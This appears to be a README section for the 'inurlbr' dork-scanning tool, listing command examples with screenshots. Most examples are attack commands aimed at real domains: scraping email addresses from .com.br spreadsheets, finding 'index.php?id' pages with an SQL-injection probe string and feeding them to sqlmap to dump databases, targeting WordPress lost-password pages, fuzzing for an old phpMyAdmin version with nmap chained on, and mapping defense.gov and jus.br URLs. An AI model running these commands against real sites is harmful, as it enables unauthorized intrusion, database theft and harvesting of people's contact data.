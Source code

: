 ## Screenshots
![Screenshot](https://1.bp.blogspot.com/-WswyqXamP44/YGYofFT6siI/AAAAAAAAAso/ea-3nf6OEqQxMw-dpEuIKedzwT7B5d0rwCLcBGAsYHQ/s1214/Captura%2Bde%2Btela%2Bde%2B2021-04-01%2B17-08-08.png)
### Email extraction
```bash
inurlbr  --dork '"com.br" contato  .xlsx' -m  -s emails.txt -q all
```
![Screenshot](https://1.bp.blogspot.com/-K_7F9nngSDk/YGYn30s1SHI/AAAAAAAAAsg/4k9NrPpBrognZ6kjx0WqeZo591X3nCydwCLcBGAsYHQ/s1214/Captura%2Bde%2Btela%2Bde%2B2021-04-01%2B17-01-03.png)

### External Command
```bash
inurlbr --dork '"com.br" index.php?id id' -s sqlmap.txt --exploit-get "?´'%270x27;" --command-vul 'python ../sqlmap-dev/sqlmap.py -u "_TARGETFULL_" --dbs --batch --threads 10 -p id --random-agent'
```
![Screenshot](https://1.bp.blogspot.com/-dz8I8p2Aies/YGYr_yZ8x3I/AAAAAAAAAsw/cHq4KS8E6AwK7l66EsykqFgvWyXjtJqVACLcBGAsYHQ/s1214/Captura%2Bde%2Btela%2Bde%2B2021-04-01%2B17-18-39.png)

### Filter Result Value
```bash
inurlbr --dork '"com.br/wp-login.php"' -t 2  -a 'wp-login.php?action=lostpassword' -s filter_string.txt
```
![Screenshot](https://1.bp.blogspot.com/-vzZbwf_KobA/YGY8KQJCJwI/AAAAAAAAAs4/6jt1cse_4Goz3pfNeB1un4tmhRkKfnkVgCLcBGAsYHQ/s1214/Captura%2Bde%2Btela%2Bde%2B2021-04-01%2B18-31-58.png)

### Simple fuzz 
```bash
inurlbr --target 'https://YOUR_TARGET' -o fuzz.txt -s php_result.txt -t 2 -a 'phpMyAdmin 2.11.4'
```
![Screenshot](https://1.bp.blogspot.com/-bajxhdjFMbI/YGZaj1Cj9MI/AAAAAAAAAtA/Z3trH2lq3mEPcwtfoekdS7OanLfDrcZhQCLcBGAsYHQ/s1214/Captura%2Bde%2Btela%2Bde%2B2021-04-01%2B20-41-09.png)

### Parallel terminal ( popup )
```bash
inurlbr --target 'https://YOUR_TARGET' -o fuzz.txt -s popup_result.txt -t 2 -a 'phpMyAdmin 2.11.4' --command-vul "nmap -sV -v  _TARGET_ ;"  --popup 
```
![Screenshot](https://1.bp.blogspot.com/-AFOmlAmYzUg/YGZgaNOY2II/AAAAAAAAAtI/twy2icF7kTo6N2YPKzOQojptIZYTCmbywCLcBGAsYHQ/s2057/Captura%2Bde%2Btela%2Bde%2B2021-04-01%2B21-05-40.png)


### Extract urls using archive.org
```bash
inurlbr  -o 'defense.gov.txt' --ua -s 'defense.gov.out'
```
![Screenshot](https://1.bp.blogspot.com/-4RwLa0MyUqI/YG_KIpr1eII/AAAAAAAAAuo/iNwH0MMY-7I9AGDc9Z9OkmBMZ5ZNAEWwgCLcBGAsYHQ/s1104/Captura%2Bde%2Btela%2Bde%2B2021-04-09%2B00-15-33.png)

### Extract urls using Robots.txt file
```bash
inurlbr --dork 'jus.br' -s 'urls-extracted-robots.txt' -q 1 --robots
```
![Screenshot](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiqzMUV1UC3G6Rojs3F9D0JvV70XWSQDT71f0iv8kB21ywKdSbAd9dtFksvda5nqv6sSJQZ2ca8Yw32ivzcOpL2ziqloeel2gkWoLArSQ6eCNtY5WvuT8RctCtwtzHKqW5I69vRoUgWPo80N_16zyTb-8IImxIfUHeGMUSKjxGYprtrfSJuv1Uo3z34wGo/s1452/Captura%20de%20tela%20de%202024-09-13%2007-33-01.png)
